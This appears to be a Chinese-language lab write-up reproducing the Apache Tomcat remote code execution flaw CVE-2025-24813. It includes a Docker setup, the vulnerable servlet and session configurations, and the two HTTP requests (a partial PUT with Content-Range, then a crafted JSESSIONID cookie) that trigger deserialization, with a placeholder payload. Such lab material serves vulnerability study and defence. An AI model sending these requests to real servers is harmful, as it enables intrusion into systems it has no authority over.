



# Tomcat 远程代码执行漏洞（CVE-2025-24813）

Apache Tomcat 是一个广泛使用的开源 Java Servlet、JavaServer Pages、Java Expression Language 和 WebSocket 技术的实现。

在 Tomcat 版本 9.x ~ 9.0.97，10.x ~ 10.1.34, 11.x ~ 11.0.2 中，当 Tomcat 同时配置了可写的 DefaultServlet（readonly=false）和基于文件的会话持久化时，攻击者可以向服务器写入任意文件，并通过操作 JSESSIONID cookie 触发这些文件的反序列化，最终导致远程代码执行。

- <https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq>
- <https://github.com/charis3306/CVE-2025-24813>
- <https://forum.butian.net/article/674>

## 环境搭建

执行以下命令启动存在漏洞的 Tomcat 9.0.97 服务器：

```
docker compose build
docker compose up -d
```

服务启动后，访问 `http://your-ip:8080` 即可看到 Tomcat 的示例页面。

## 漏洞复现

该漏洞存在的原因是 Tomcat 中两个关键的错误配置。首先，DefaultServlet 配置了 readonly=false，允许文件上传：

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

其次，Tomcat 配置了基于文件的 Session 持久化：

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

这两种配置都使用相同的默认存储路径：`$CATALINA_BASE/work/Catalina/localhost/ROOT`。

当发送不完全的 PUT 请求（使用 `Content-Range` 头）时，Tomcat 会将文件路径中的分隔符 (/) 转换为句点 (.)，并将文件临时存储在会话存储目录中。利用这个特效，我们可以将恶意序列化对象写入此临时文件中。

要利用此漏洞，首先发送带有 Content-Range 头的部分 PUT 请求，在临时目录中写入名为.deserialize.session 的文件（这里使用 URLDNS gadget 进行测试）：

```
PUT /deserialize/session HTTP/1.1
Host: your-ip:8080
Content-Length: 1234
Content-Range: bytes 0-5/10

deserialize content
```



然后，发送另一个带有操作过的 JSESSIONID cookie 的请求，触发文件的反序列化：

```
GET / HTTP/1.1
Host: your-ip:8080
Cookie: JSESSIONID=.deserialize


```



可见，URLDNS gadget 被成功反序列化，并发送了 DNS 请求：



在实际攻击场景中，"deserialize content"将被替换为恶意的序列化 Java 对象，当被目标应用反序列化时可以执行任意代码。
